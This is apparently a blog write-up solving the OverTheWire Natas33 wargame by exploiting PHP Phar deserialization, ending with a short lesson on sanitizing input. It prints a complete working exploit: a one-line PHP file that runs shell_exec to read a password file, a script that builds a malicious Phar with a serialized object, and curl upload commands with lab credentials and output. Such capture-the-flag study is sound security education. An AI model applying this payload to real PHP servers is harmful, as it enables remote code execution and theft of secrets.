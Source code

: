 ```yaml
---
category: natas
title: Natas33 - PHP Phar Deserialization Vulnerabilities
---
```


website: http://natas33.natas.labs.overthewire.org/ (password: shoogeiGa2yee3de6Aex8uaXeech5eey)


Another very challenging problem. Going through the source code, I think it's related with "Insecure Deserialization", which is similar to Natas26's challenge. However, at first I don't know how and where to trigger the deserialization. After going through <a href="https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2019/06/26/exploiting_php_phar-PRD7.html">this blog</a>, I realized that the function `md5_file` can take a Phar (PHP Archive) stream as its parameter if a file name starts with <small>phar://</small>. A Phar file contains metadata in serialized format. If a file operation (such as what `md5_file()` does) is performed on an existing Phar file via the <small>phar://</small> stream wrapper, then its serialized metadata will be deserialized. If we can inject a PHP object into the the metadata, that object will be deserialized and its destruct function will be invoked when its life cycle ends. Moreover, if we look at the source code, the destruct is implemented below:

{% highlight php linenos %}
function __destruct(){
    // "The working directory in the script shutdown phase can be different with some SAPIs (e.g. Apache)."
    if(getcwd() === "/") chdir("/natas33/uploads/");
    if(md5_file($this->filename) == $this->signature){
        echo "Congratulations! Running firmware update: $this->filename <br>";
        passthru("php " . $this->filename);
    } else{
        echo "Failur! MD5sum mismatch!<br>";
    }
}
{% endhighlight %}

From the above source code, we can think of a few things:

1.    If the object's filename ends with ".php" (e.g., pwn.php), then line 6 will execute that PHP file if it exists (e.g., /natas33/uploads/pwn.php)
2.    To bypass line 4, if the object's signature is the same with the md5 of that PHP file, then that line will return true and we will be able to execute the PHP file we want

Another observation is that after a file is uploaded, the file name stored on the server comes from the client side:
`<input type="hidden" name="filename" value="<? echo session_id(); ?>" />`. That means we can manipulate the filename as what we want.

With above observations, here is what I did:

1. Create a PHP file (pwn.php) with just one line: `<?php echo shell_exec('cat /etc/natas_webpass/natas34'); ?>`

2. Write a PHP script (create-phar.php) that creates a Phar file and saves an `Executor` object as its metadata:

    ```php
    <?php
        class Executor {
            private $filename = "pwn.php";
            private $signature = True;
            private $init = False;
        }
     
        $phar = new Phar("test.phar");
        $phar->startBuffering();
        $phar->addFromString("test.txt", 'test');
        $phar->setStub("<?php __HALT_COMPILER(); ?>");
        $o = new Executor();
        $phar->setMetadata($o);
        $phar->stopBuffering();
    ?>
    ```

    Here I assign `True` to `$signature` because it will bypass the line `md5_file($this->filename) == $this->signature` as long as `md5_file()` doesn't return an empty string. Or, you can calculate the md5 of pwn.php and assign the result to `$signature`. It will also work.

    Running create-phar.php will give us the generated Phar file test.phar:

    ```shell
    $ php create-phar.php
    $ cat test.phar
    <?php __HALT_COMPILER(); ?>
    �tO:8:"Executor":3:{s:18:"Executorfilename";s:7:"pwn.php";s:19:"Executorsignature";b:1;s:14:"Executorinit";b:0;test.txt�\Qa
           ~ؤtest8�3��V;�����t+l4'�GBMB
    ```

3. Upload both pwn.php and test.phar so that they will be stored under <small>/natas33/uploads/</small> on the server. When uploading the two files, make sure we craft their filenames so that they won't be renamed as session ids on the server.

    ```shell
    $ curl -u natas33:shoogeiGa2yee3de6Aex8uaXeech5eey "http://natas33.natas.labs.overthewire.org" \
           -F "uploadedfile=@pwn.php;type=text/php" \
           -F "filename=pwn.php"
    ... ...
        The update has been uploaded to: /natas33/upload/pwn.php<br>Firmware upgrad initialised.<br>/natas33/uploadFailur! MD5sum mismatch!<br>            
        <form enctype="multipart/form-data" action="index.php" method="POST">
     
    $ curl -u natas33:shoogeiGa2yee3de6Aex8uaXeech5eey "http://natas33.natas.labs.overthewire.org" \
           -F "uploadedfile=@test.phar;type=application/octet-stream" \
           -F "filename=test.phar"
    ... ...
        The update has been uploaded to: /natas33/upload/test.phar<br>Firmware upgrad initialised.<br>/natas33/uploadFailur! MD5sum mismatch!<br>            
        <form enctype="multipart/form-data" action="index.php" method="POST">
    ```

4. Sending another request. This time let the filename be <small>phar://test.phar</small>. This way the `md5_file()` will take a Phar stream as a parameter and help us do the trick:

    ```bash
    $ curl -u natas33:shoogeiGa2yee3de6Aex8uaXeech5eey "http://natas33.natas.labs.overthewire.org" \
           -F "uploadedfile=@test.phar;type=application/octet-stream" \
           -F "filename=phar://test.phar"
    ...
    <b>Warning</b>:  md5_file(phar://test.phar): failed to open stream: phar error: file "" in phar "test.phar" cannot be empty in 
    <b>/var/www/natas/natas33/index.php</b> on line <b>43</b><br />
    Failur! MD5sum mismatch!<br>
    ...
    /natas33/uploadCongratulations! Running firmware update: pwn.php <br>shu5ouSu6eicielahhae0mohd4ui5uig
    ```

    From the above output, you can see that `md5_file()` was actually invoked twice:

    - The first invoke was done by the `Executor` object created by the source code line `if(array_key_exists("filename", $_POST) and array_key_exists("uploadedfile",$_FILES)) { new Executor(); }`. It failed because the Phar stream didn't not provide any valid file in the URI.
    - The second invoke was done by the `Executor` object `$o = new Executor();` created by us in the test.phar: When the `md5_file()` was invoked for the first time, it read the <small>phar://test.phar</small> stream and deserialized the metadata. Because we have created an object into the metadata (see the script create-phar.php), the object, whose filename is "pwn.php" and signature is "True", was restored. When this object's life went to an end, the `md5_file()` was called during the destruction. Because `$this->signature` was true and `md5_file("pwn.php")` was a non-empty string, the line `md5_file($this->filename) == $this->signature` was bypassed and the line `passthru("php " . $this->filename);` got executed. This is equivalent to execute `passthru("php pwn.php");`. Looking at the script pwn.php, it displays the content of <small>/etc/natas_webpass/natas34</small>.

All the files are attached below:

1. The file "pwn.php":
```php
<?php echo shell_exec('cat /etc/natas_webpass/natas34'); ?>
```

2. The file "create-phar.php":
```php
<?php
	class Executor {
		private $filename = "pwn.php";
		private $signature = True;
		private $init = false;
	}

	$phar = new Phar("test.phar");
	$phar->startBuffering();
	$phar->addFromString("test.txt", 'test');
	$phar->setStub("<?php __HALT_COMPILER(); ?>");
	$o = new Executor();
	$phar->setMetadata($o);
	$phar->stopBuffering();
?>
```
This file is used to create our phar file "test.phar".

<strong>LESSONS LEARNED</strong>

In this challenge, we learned what a Phar file is. For some PHP functions that operate on a file, they can take Phar stream wrapper as a parameter. If you are using those functions, make sure you sanitize users' input to avoid attacks like this one.


<strong>Reference</strong>
1. <a href="https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2019/06/26/exploiting_php_phar-PRD7.html">Exploiting PHP Phar Deserialization Vulnerabilities</a>
2. <a href="https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It%27s-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf">File Operation Induced Unserialization via the "phar://" Stream Wrapper</a>
